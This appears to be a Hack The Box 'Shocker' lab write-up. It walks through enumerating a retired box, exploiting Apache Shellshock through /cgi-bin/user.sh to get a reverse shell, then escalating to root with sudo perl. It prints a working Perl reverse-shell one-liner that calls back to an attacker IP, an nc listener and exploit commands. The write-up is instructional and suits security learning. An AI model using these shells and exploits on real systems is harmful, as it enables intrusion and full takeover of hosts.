


hackthebox Shocker
Released: 30th September 2017 / Pwned: September 16th 2019 - [+] Solved whilst Retired

Shocker is a straightforward box, providing that you've heard of the Apache Shellshock vulnerability before. If not, you'll probably get a little stuck.
Summary
• Brute-force the web server for directories - find a /cgi-bin entry
• Brute-force /cgi-bin for a directories/files - find a user.sh file
• Run Apache Shellshock exploit against /cgi-bin/user.sh to gain a shell on the system
• sudo -l to list sudo permissions - can run perl with sudo & no password
• Send a perl reverse shell back to your attacking system to get a shell as root
1) Nmap
Initial scan:
nmap -sV -sC -T4 -oN nmap/tcp-top1000.txt 10.10.10.56
-sV service enumeration
-sC default scripts
-T4 aggressive scan
-oN default output
Results:
root@gotham:~/ctf/shocker# nmap -sV -sC -T4 -oN nmap/tcp-top1000.txt 10.10.10.56
[...]
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| 256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_ 256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Analyse results:
• Port 2222 looks like a normal ssh service but running on a non-standard port
• Port 80 is a web server, and is probably a better lead than ssh
2) 80/http - gobuster
http://10.10.10.56 tells you not to bug him.
(In hindsight, this is probably a hint towards an Apache exploit - bug/exploit)

There's nothing in view-source, nothing in the image, so I ran gobuster.
root@gotham:~/ctf/shocker/80http# gobuster -e -u http://10.10.10.56/ -w /usr/share/seclists/Discovery/Web-Content/big.txt -o gb-big.txt
=====================================================
Gobuster v2.0.1 OJ Reeves (@TheColonial)
=====================================================
[+] Mode : dir
[+] Url/Domain : http://10.10.10.56/
[+] Threads : 10
[+] Wordlist : /usr/share/seclists/Discovery/Web-Content/big.txt
[+] Status codes : 200,204,301,302,307,403
[+] Expanded : true
[+] Timeout : 10s
=====================================================
2019/09/14 15:08:10 Starting gobuster
=====================================================
http://10.10.10.56/.htaccess (Status: 403)
http://10.10.10.56/.htpasswd (Status: 403)
http://10.10.10.56/cgi-bin/ (Status: 403)
http://10.10.10.56/server-status (Status: 403)
=====================================================
2019/09/14 15:09:17 Finished
=====================================================
2a) About CGI
/cgi-bin exists, which means that this Apache server has the mod_cgi module installed.
CGI stands for Common Gateway Interface.
CGI is a protocol designed to allow web servers (e.g. Apache) to run scripts (system commands, php code, python code etc.) on the server, and return the output to the client via HTTP.
It's normally used to generate dynamic content on websites, but is also used by admins for logging etc.
• mod_cgi is the Apache plugin.
• /cgi-bin is one diretory where the scripts can be stored.
◇ CGI will run all kinds of scripts - shell, perl, php, python etc.
https://httpd.apache.org/docs/current/mod/mod_cgi.html
http://docs.1h.com/Mod_cgi
https://null-byte.wonderhowto.com/how-to/exploit-shellshock-web-server-using-metasploit-0186084/
We can abuse the fact that mod_cgi is installed with the Apache Shellshock vulnerability.
3) About Shellshock
Shellshock
Shellshock was a vulnerability found in 2014 where code could be appended to the end of environment variables. A flaw in the Bash shell's parser meant that these appended commands got executed, and an attacker could run arbitrary code.
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
Shellshock is acutally a collection of vulns, because it affects a bunch of different software.
https://github.com/mubix/shellshocker-pocs
Apache Shellshock
The shellshock vulnerability affects Apache mod_cgi scripts.
I have no idea how.
Most exploits just provide bash code within a header (e.g. Referer or Cookie) and the code gets executed ¯\_(ツ)_/¯
Metasploit module - apache_mod_cgi_bash_env_exec
Exploitdb code (really great/easy) - https://www.exploit-db.com/exploits/34900
Gain Access
4) Apache Shellshock shell
First, we need to find a scrip in /cgi-bin to target.
Search for files ending in .sh in /cgi-bin with gobuster.
root@gotham:~/ctf/shocker/80http# gobuster -e -u http://10.10.10.56/cgi-bin/ -w /usr/share/seclists/Discovery/Web-Content/big.txt -o gb-big-cgi_bin -x .sh
=====================================================
Gobuster v2.0.1 OJ Reeves (@TheColonial)
=====================================================
[+] Mode : dir
[+] Url/Domain : http://10.10.10.56/cgi-bin/
[+] Threads : 10
[+] Wordlist : /usr/share/seclists/Discovery/Web-Content/big.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions : sh
[+] Expanded : true
[+] Timeout : 10s
=====================================================
2019/09/16 10:39:50 Starting gobuster
=====================================================
http://10.10.10.56/cgi-bin/.htpasswd (Status: 403)
http://10.10.10.56/cgi-bin/.htpasswd.sh (Status: 403)
http://10.10.10.56/cgi-bin/.htaccess (Status: 403)
http://10.10.10.56/cgi-bin/.htaccess.sh (Status: 403)
http://10.10.10.56/cgi-bin/user.sh (Status: 200)
=====================================================
2019/09/16 10:42:06 Finished
We've found a target - http://10.10.10.56/cgi-bin/user.sh.
Copy the exploitdb exploit to your working directory.
root@gotham:~/ctf/shocker# searchsploit apache mod_cgi
------------------------------------------ ----------------------------------------
Exploit Title | Path
| (/usr/share/exploitdb/)
------------------------------------------ ----------------------------------------
Apache mod_cgi - 'Shellshock' Remote Comm | exploits/linux/remote/34900.py
------------------------------------------ ----------------------------------------
Shellcodes: No Result
root@gotham:~/ctf/shocker# cp /usr/share/exploitdb/exploits/linux/remote/34900.py .
root@gotham:~/ctf/shocker# mv 34900.py shellshock.py
And run the script against the target.
You'll have a shell on the system.
root@gotham:~/ctf/shocker# python shellshock.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.6 lport=9001 pages=/cgi-bin/user.sh
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/user.sh
[!] Successfully exploited
[!] Incoming connection from 10.10.10.56
10.10.10.56> id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
10.10.10.56>
Grab user.txt :)
10.10.10.56> cd /home/shelly
10.10.10.56> ls -alh
total 36K
[...]
-rw-r--r-- 1 shelly shelly 0 Sep 22 2017 .sudo_as_admin_successful
-r--r--r-- 1 root root 33 Sep 22 2017 user.txt
10.10.10.56> cat user.txt
2ec24e1...
Priv-Esc
5) sudo -l
When grabbing user.txt, we also saw .sudo_as_admin_successful.
Run sudo -l to see what shelly can run with sudo.
10.10.10.56> sudo -l
Matching Defaults entries for shelly on Shocker:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User shelly may run the following commands on Shocker:
(root) NOPASSWD: /usr/bin/perl
We can run perl as root with no password.
Great :) We can get a root shell by sending a perl reverse shell back to our attacking system.
Here's a perl reverse shell:
perl -e 'use Socket;$i="ATTACKING-IP";$p=<ATTACKING PORT>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
Start a listener on your attacking machine to receive the shell
root@gotham:~/ctf/shocker# nc -lvnp 9002
listening on [any] 9002 ...
And run the perl reverse shell on the target with sudo.
10.10.10.56> sudo perl -e 'use Socket;$i="10.10.14.6";$p=9002;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
You should be sent a root shell on your listener!
[...]
listening on [any] 9002 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.56] 39194
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
52c27156...